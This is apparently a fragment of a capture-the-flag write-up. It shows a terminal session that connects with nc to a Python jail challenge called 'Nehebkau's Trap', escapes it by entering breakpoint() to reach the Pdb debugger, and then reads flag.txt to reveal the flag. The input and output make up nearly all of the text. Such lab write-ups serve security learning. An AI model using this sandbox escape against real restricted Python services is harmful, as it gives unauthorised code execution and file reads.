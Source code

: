 └──╼ $nc 139.59.176.230 32499
    __
   {00}
   \__/
   /^/
  ( (
   \_\_____
   (_______)
  (_________()Ooo.

[ Nehebkau's Trap ]

You are trapped!
Can you escape?
> breakpoint()

[*] Input accepted!

--Return--
> <string>(1)<module>()->None
(Pdb) open("flag.txt", "r").read()
'HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}\n'
(Pdb)
